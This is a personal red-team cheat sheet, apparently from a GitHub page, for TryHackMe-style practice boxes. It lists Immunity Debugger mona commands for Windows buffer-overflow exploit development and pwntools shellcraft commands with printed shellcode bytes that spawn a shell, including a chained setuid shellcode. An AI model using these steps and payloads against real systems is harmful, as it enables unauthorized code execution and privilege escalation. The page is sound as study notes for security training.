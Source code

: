 ```yaml
---
title: "RTFM"
---
```


:::info

My version of the "Red Team Field Manual (RTFM)" for attacking boxes, learned from [TryHackMe](https://tryhackme.com/dashboard) and other sources.

:::

## Mona modules

python scripts to use in Immunity Debugger for windows buffer overflows

```bash
# set mona work dir
!mona config -set workingfolder C:\Users\IEUser\Downloads\%p

# create a bytearray to compare for badchar checking (add your badchar list)
!mona bytearray -b "\x00"

# compare memory in crashed app to the bytearray
!mona compare -f C:\Users\IEUser\Downloads\chatserver\bytearray.bin -a 0022F930

# find a jump esp return address (add your badchar list)
!mona jmp -r esp -cpb "\x00"
```

## pwntools

A tool to create various shellcode payloads.

[Installation](https://docs.pwntools.com/en/stable/install.html)

```bash
apt-get update
apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
```

Binary is installed to `~/.local/bin` so add to your `$PATH` e.g. `export PATH=$PATH:~/.local/bin` or edit `~/.bashrc`

Useful commands

```bash
# see available shellcodes
pwn shellcraft -l

# generate shellcode: -f[ormat] d[isasm] <payload>
# format: choose from 
# 'r', 'raw', 's', 'str', 'string', 'c', 'h', 'hex', 'a', 'asm', 'assembly', 
# 'p', 'i', 'hexii', 'e', 'elf', 'd', 'escaped', 'default'
pwn shellcraft -f d i386.linux.sh
\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80

# append shellcodes e.g. if you need a setuid bit run before a .sh
pwn shellcraft -f d amd64.linux.setuid 1000
\x31\xff\x66\xbf\xe8\x03\x6a\x69\x58\x0f\x05

pwn shellcraft -f d amd64.linux.sh
\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xf6\x56\x6a\x08\x5e\x48\x01\xe6\x56\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05

## add them together:
\x31\xff\x66\xbf\xe8\x03\x6a\x69\x58\x0f\x05\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xf6\x56\x6a\x08\x5e\x48\x01\xe6\x56\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05
```

Resource: [hacktricks pwn shellcraft](https://book.hacktricks.xyz/exploiting/tools/pwntools#pwn-shellcraft)